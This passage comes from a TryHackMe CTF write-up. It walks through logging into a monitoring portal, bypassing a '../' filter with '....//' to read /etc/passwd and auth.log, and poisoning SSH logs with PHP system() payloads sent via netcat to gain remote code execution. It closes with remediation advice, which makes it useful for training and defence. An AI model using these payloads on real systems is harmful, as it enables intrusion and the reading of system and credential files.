
*Figure 15 — CyberChef's "From Base64" recipe decoding the SSRF-leaked data URI, revealing the real SysMon administrator password `S$9$qk6d#**LQU`.*

---

### 5. SysMon Authentication — First Flag

**Category:** Authenticated Access / Flag Capture

The recovered SysMon credentials were used to log into the System Monitoring Portal on port 50000:

```
Username: administrator
Password: S$9$qk6d#**LQU
```

The dashboard immediately displayed the room's first flag in the sidebar welcome panel:

```
THM{!50_55Rf_1S_d_k3Y??!}
```


*Figure 16 — Authenticated SysMon dashboard ("Welcome, administrator!") displaying the first flag directly in the sidebar.*

Viewing the page source of this dashboard also revealed a key parameter for the next stage of the attack:

```html

```

---

### 6. Directory & Endpoint Enumeration (SysMon, Port 50000)

**Category:** Web Content Discovery

With a valid SysMon session cookie, Gobuster was used to enumerate additional files/endpoints on the authenticated application:

```bash
gobuster dir -u http://10.48.187.216:50000 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,html,bak \
  -c "PHPSESSID=<session-cookie>"
```

- `-c` passes the authenticated session cookie, so Gobuster enumerates pages as a logged-in admin rather than being redirected to the login page for every request

**Result:** confirmed `profile.php` (the LFI entry point identified from page source), plus `uploads/`, `api.php`, `auth.php`, `templates/`, and `dashboard.php`.


*Figure 17 — Gobuster directory enumeration on port 50000 (authenticated), confirming `profile.php`, `uploads/`, `api.php`, and other endpoints.*

---

### 7. Local File Inclusion (LFI) — Filter Bypass

**Category:** Web Application Exploitation — Local File Inclusion / Path Traversal Filter Bypass

Standard path traversal against the `img` parameter returned consistently **empty (0-byte) responses**, even against known-good targets like `/etc/passwd` — including URL-encoded (`%2e%2e%2f`) and double-encoded (`%252f`) variants. This behaviour (silent empty response rather than an error) indicated the application was actively filtering/stripping `../` sequences from the input rather than rejecting the request outright.

```bash
# All of these returned 0-byte responses — standard traversal was filtered
curl -s "http://10.48.187.216:50000/profile.php?img=../../../../etc/passwd" --cookie "PHPSESSID=<cookie>" -o test.bin
curl -s "http://10.48.187.216:50000/profile.php?img=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd" --cookie "PHPSESSID=<cookie>" -o test.bin
```

This is consistent with a naive, **single-pass `str_replace('../', '', $input)`**-style filter: stripping `../` once from a string like `....//` leaves `../` behind, re-forming a valid traversal sequence. Wordlist-based fuzzing confirmed this bypass worked reliably:

```bash
wfuzz --hh 0 --hw 0 --hl 0 \
  -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
  -u "http://10.48.187.216:50000/profile.php?img=FUZZ" \
  -b "PHPSESSID=<cookie>"
```

- `--hh 0 --hw 0 --hl 0` — hide responses with 0 chars/words/lines, filtering out the noise from all the still-blocked payloads so only genuine, content-bearing hits remain visible

**Result:** every payload using the `....//` bypass pattern against `etc/passwd` returned a consistent, non-empty **200 OK / 2231 chars** response, confirmed across dozens of variants:


*Figure 18 — wfuzz output using the LFI-Jhaddix wordlist: every `....//`-style payload against `etc/passwd` returns a consistent 200/2231-char response, confirming the filter-bypass technique.*

This was verified directly in-browser using `view-source:` to inspect the raw file contents:

```
http://10.48.187.216:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
```


*Figure 19 — `view-source` of the LFI payload against `/etc/passwd` on the actual target, showing the full, real passwd file contents — confirmed working LFI.*

With LFI confirmed, other sensitive files were read to establish further attack options, including `/var/log/auth.log` (the SSH authentication log — key for the next stage):

```
http://10.48.187.216:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//var/log/auth.log
```


*Figure 20 — LFI successfully reading `/var/log/auth.log`, confirming SSH login/connection attempts are logged here and readable — the foundation for the log-poisoning RCE below.*

---

### 8. SSH Log Poisoning — Local File Inclusion to Remote Code Execution

**Category:** Remote Code Execution — LFI-to-RCE via Log Poisoning

Since `/var/log/auth.log` records every SSH connection attempt (including failed/invalid ones) verbatim, and that same file could be included and executed via the LFI, a **log poisoning** attack was used: an SSH connection was attempted using a **PHP payload as the username**. SSH rejects the login (no valid credentials or malformed protocol), but the attempted username string is still written into the log file by `sshd` before the connection is rejected.

```bash
# Using netcat directly against port 22 to control the exact bytes sent:
nc 10.48.187.216 22
# (after receiving the SSH banner, send the payload as if it were a protocol string)
<?php system("id"); ?>
```

```bash
nc 10.48.187.216 22
<?php system("ls /var/www/html"); ?>
```

```bash
nc 10.48.187.216 22
<?php system("cat /var/www/html/<hidden-filename>.txt"); ?>
```

Each payload is logged by `sshd` into `/var/log/auth.log` as an "invalid protocol identifier" / "invalid user" entry containing the raw PHP string.


*Figure 21 — Netcat connections to port 22 sending PHP payloads as the SSH identification/username string, which get written verbatim into `/var/log/auth.log` by sshd.*

Immediately after each injection, the poisoned log file was included via the confirmed LFI bypass, causing the PHP interpreter to execute the embedded `system()` call when parsing the log as a PHP file:

```
http://10.48.187.216:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//var/log/auth.log
```

This returned real command output mixed in with the log text, confirming working RCE:

- `id` → `uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm),27(sudo)`
- `ls /var/www/html` → `<hidden-file>.txt api.php auth.php dashboard.php index.php login.php logout.php profile.php templates uploads`
- `cat /var/www/html/<hidden-file>.txt` → **`THM{505eb0fb8a9f32853b4d955e1f9123ea}`**


*Figure 22 — Terminal sequence of the log-poisoning payloads sent via netcat, escalating from `id` to `ls /var/www/html` to `cat` of the discovered hidden filename.*


*Figure 23 — The final `cat` command's output appearing inline in the included `/var/log/auth.log` content, with the second flag highlighted directly in the browser.*


*Figure 24 — Terminal view confirming the full command chain (`id` → `ls /var/www/html` → `cat` of the hidden file) and the final flag value, `THM{505eb0fb8a9f32853b4d955e1f9123ea}`.*

**Second flag:**
```
THM{505eb0fb8a9f32853b4d955e1f9123ea}
```

---

## Other Details

### Troubleshooting Notes

- **Guessing the wrong POST endpoint.** Before inspecting DevTools' Network tab properly, manual `curl` attempts against `/friend/1` and `/recommend/1` both returned `404 Cannot POST`, because the true form-submission path had not yet been confirmed. The fix was to stop guessing and copy the exact request straight from the browser's Network tab instead of hand-typing URLs and cookies (which also introduced a subtle `%3A`-encoding error in the session cookie when retyped manually).

  
  *Figure 25 — `curl` POST attempts against incorrect guessed endpoints (`/friend/1`, `/recommend/1`) both returning `Cannot POST`, before the real endpoint was confirmed via DevTools.*

- **LFI appeared broken at first.** Every traversal attempt (`../`, URL-encoded, double-encoded, `....//` with only a few repetitions) initially returned empty 0-byte responses, suggesting LFI wasn't exploitable at all. This turned out to be a combination of (a) the input filter stripping literal `../` sequences and (b) not yet using enough `....//` repetitions to reach the filesystem root. Systematic depth-fuzzing with a generated wordlist, and eventually the full LFI-Jhaddix wordlist, was required to find a working combination.

  
  *Figure 26 — Multiple LFI bypass attempts (absolute path, URL-encoded, double-encoded, `....//`) all returning empty/0-byte responses before the correct traversal depth was found.*

- **wfuzz performance pitfalls.** An initial attempt to brute-force the hidden filename in `/var/www/html` used the full 220,000+ line `directory-list-2.3-medium.txt` wordlist at high thread count (`-t 50`), which overwhelmed the target and caused `Pycurl error 28: Operation timed out`. A follow-up attempt added a `-s` (delay) flag, which wfuzz silently downgraded concurrency to 1 thread — at a multi-second delay per request, this would have taken **days** to complete against the full wordlist. The practical fix (going forward) is to use much smaller, targeted wordlists first (e.g. `dirb/small.txt`, or a short custom list of common CTF filenames) before escalating to large wordlists, and to tune concurrency and timeouts deliberately rather than combining flags that interact unexpectedly.

  
  *Figure 27 — wfuzz failing with a Pycurl timeout error after only 476 of 220,560 requests, due to excessive concurrency (`-t 50`) against the target.*

- **Shell `$PATH` corruption.** Mid-engagement, basic commands (`curl`, `file`, `ls`) suddenly reported "command not found" despite being installed, due to the shell's `$PATH` environment variable being unset or corrupted in that session. This was unrelated to the target and was resolved by manually restoring the path: `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`.

- **Target IP changed mid-engagement.** The lab VM was restarted partway through testing, which issued a new IP address (`10.48.177.157` in place of `10.48.187.216`) and a fresh SysMon/Review App session. All payloads and session cookies had to be regenerated against the new IP before the log-poisoning RCE chain could be completed successfully.

### Attack Chain Overview

1. Nmap full-port scan identifies two non-standard web services: Review App (port 4000) and SysMon (port 50000)
2. Review App's login page discloses hardcoded demo credentials (`guest`/`guest`)
3. Mass assignment vulnerability in the "Recommend an Activity" form allows injecting `isAdmin=true`, unlocking hidden Admin API/Settings pages
4. API Dashboard documents an internal-only API (`127.0.0.1:5000`) returning masked admin credentials
5. SSRF via the "Update Banner Image URL" field forces the server to fetch the internal API itself, reflecting the real, unmasked response as a Base64 `data:` URI
6. CyberChef decodes the Base64 data, revealing real SysMon administrator credentials
7. Logging into SysMon with the recovered credentials reveals the **first flag**
8. Gobuster enumerates `profile.php` and other SysMon endpoints
9. `profile.php?img=` is vulnerable to LFI; naive `../` filtering is bypassed using `....//`
10. Confirmed LFI reads `/etc/passwd` and `/var/log/auth.log`
11. SSH log poisoning (PHP payload sent as SSH username via netcat) injects executable PHP into `/var/log/auth.log`
12. Including the poisoned log via LFI executes the payload, achieving RCE as `www-data`
13. RCE is used to `ls` and `cat` the hidden file in `/var/www/html`, revealing the **second flag**

### Remediation Recommendations

- Never display demo/test credentials directly on a production-style login page, even for "guest" accounts; disable or remove demo accounts entirely outside of controlled, clearly-labelled test environments.
- Use an explicit allow-list of permitted fields when processing form/API input that updates a database record; never merge raw request bodies directly onto model objects (avoid unguarded `Object.assign(model, req.body)`-style patterns). Sensitive fields such as `isAdmin`, `role`, or `isVerified` should never be settable from client-supplied input.
- Treat any "fetch a URL and render/store it" feature (banner images, avatars, webhooks, link previews) as a potential SSRF vector: validate and allow-list destination hosts/schemes, block requests to private/loopback address ranges (`127.0.0.0/8`, `169.254.0.0/16`, RFC1918 ranges) from the server side, and never return the raw fetched response body back to the client.
- Do not expose internal-only APIs or "API Dashboard" documentation pages containing even masked sample credentials to any authenticated user; such pages should not exist in production, and example/sample values should never reflect the real response shape of live, sensitive endpoints.
- Sanitise file-inclusion parameters using a strict allow-list of expected filenames (e.g. map an ID to a filename server-side) rather than attempting to blacklist traversal sequences; blacklist-based filtering (stripping `../` once) is reliably bypassable with sequences like `....//`.
- Disable detailed PHP error/log inclusion features entirely in production, and ensure log files (`auth.log`, access logs, etc.) are never located inside or reachable from a web-accessible document root or any LFI-exploitable include path.
- Apply strict input validation/sanitisation on anything written to system logs that could later be interpreted as code (usernames, user-agents, referrers), and store logs with restrictive, non-executable permissions outside the web root.

---

## References

- TryHackMe Room — Include: <https://tryhackme.com/room/include>
- Video Walkthrough: <https://www.youtube.com/watch?v=-QFxdQlJ-oE>
